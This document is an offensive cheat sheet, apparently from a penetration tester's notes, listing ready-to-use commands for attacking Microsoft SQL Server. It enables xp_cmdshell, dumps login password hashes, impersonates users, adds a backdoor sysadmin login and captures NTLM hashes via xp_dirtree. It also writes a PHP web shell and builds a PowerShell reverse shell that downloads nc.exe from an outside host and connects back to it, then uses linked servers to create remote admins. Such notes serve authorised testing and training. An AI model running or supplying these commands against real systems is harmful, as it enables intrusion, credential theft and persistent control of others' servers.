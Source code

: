 # mssql-cmd

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK



## configure - turns on advanced options
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## configure -  enable xp_cmdshell 
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## configure -  enable Ole Automation Procedures
```
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

## enum - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## enum - select records of a table
```
SELECT * FROM <databaseName>.dbo.<tableName>
```

## enum - Get users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## enum - check admin rights
```
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## enum - identify users that we can impersonate
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

## enum - check readfile priv (OPENROWSET)
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```

## privesc - impersonate user
```
EXECUTE AS LOGIN = '<user|sa>'
```

## persist - Create user with sysadmin privs
```
CREATE LOGIN jubeaz WITH PASSWORD = '<password|Jube@z123!'
sp_addsrvrolemember 'jubeaz', 'sysadmin'
```

## execute command
```
EXEC master..xp_cmdshell '<cmd|whoami /all>'
```
## Hash gathering - 
sudo impacket-smbserver share ./ -smb2support
sudo responder -I tun0
```
xp_dirtree '\\<ip>\any\thing'
exec master.dbo.xp_dirtree '\\<ip>\any\thing'
EXEC master..xp_subdirs '\\<ip>\anything\'
EXEC master..xp_fileexist '\\<ip>\anything\'
```

## reverseshell
'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
exec xp_cmdshell 'powershell -exec bypass -enc <b64_payload>
```


## read file (OPENROWSET)
```
SELECT * FROM OPENROWSET(BULK N'<path|C:/Windows/System32/drivers/etc/hosts>', SINGLE_CLOB) AS Contents
```

## write file
enable Ole Automation Procedures
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

## Trustable Links - Get Linked Servers (exec)
```
EXEC sp_linkedservers
```

## Trustable Links - Get Linked Servers (select)
```
select * from master..sysservers
```

## Trustable Links - Execute queries
```
select * from openquery("<srvname>", '<query>')
```

## Trustable Links - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT name FROM master.dbo.sysdatabases')
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES')
```

## Trustable Links - select records of a table
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.dbo.<tableName>')
```

## Trustable Links - create remote admin
```
EXECUTE('EXECUTE(''CREATE LOGIN <login|jubeaz> WITH PASSWORD = ''''<password|Jub@z123!>'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''<login|jubeaz>'''' , ''''sysadmin'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
```

